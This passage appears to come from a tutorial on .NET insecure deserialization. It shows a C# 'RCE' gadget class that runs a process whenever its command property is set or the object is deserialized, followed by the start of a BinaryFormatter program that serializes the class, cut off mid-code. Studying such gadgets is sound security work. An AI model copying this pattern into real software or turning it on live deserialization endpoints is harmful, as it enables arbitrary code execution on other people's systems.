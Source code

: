 * Serializable
* Holding public/settable variables
* Implementing magic "functions" (we'll see an example below), like:
    - Get/Set
    - OnSerialisation
    - Constructors/Destructors

Taking a deeper look at the code above, it is possible to see this class:

```cs
 [Serializable]
public class RCE : IDeserializationCallback
{
    private String _cmd;
    public String cmd
    {
        get { return _cmd; }
        set
        {
            _cmd = value;
            Run();
        }
    }

    public void Run()
    {
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = _cmd;
        p.Start();
        p.Dispose();
    }

    public void OnDeserialization(object sender) {
        Run();
    }
}
```

This class seems to fulfill the requirements for a **Gadget**, and could be even used alone to execute arbitrary code. In order to achieve it, it would be enough to serialize the RCE class giving a valid command to execute: 

```cs
using System;
using System.IO;
using System.Runtime.Serialization;
using
System.Runtime.Serialization.Formatters.Binary;
namespace BinarySerialization
{
    public static class BinarySerialization
    {
        private const string filename = "desert.ser";
        [STAThread]
        static void Main(string[] args)
        {
            Console.WriteLine();
            // Delete old file, if it exists
            BinarySerialization.deleteFile(filename);
            // Serialize RCE
            BinarySerialization.desertSerial(filename);
            // Wait for Enter
            Console.WriteLine();
            Console.WriteLine("Press Enter Key");
            Console.Read();
        }
```